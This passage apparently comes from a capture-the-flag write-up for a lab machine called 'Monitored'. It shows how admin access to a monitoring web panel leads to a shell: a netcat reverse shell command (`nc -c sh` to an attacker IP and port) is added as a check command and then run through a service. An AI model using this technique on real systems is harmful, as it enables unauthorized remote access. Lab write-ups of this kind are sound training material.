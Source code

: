 With our admin power, it is now possible for us to get into the machine by accessing the `Command` panel and adding our reverse shell command crafted [here](https://www.revshells.com/) (`nc -c sh 10.10.14.134 6969`) :

<img src="/assets/img/MonitoredWriteup/mon8.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

 We then need to run a service that will execute that command, so let's create one in the `service management` tab :

<img src="/assets/img/MonitoredWriteup/mon9.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

If we click on `run check command`, our command should execute, if we look to our terminal waiting for the reverse shell to connect :

<img src="/assets/img/MonitoredWriteup/mon10.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>
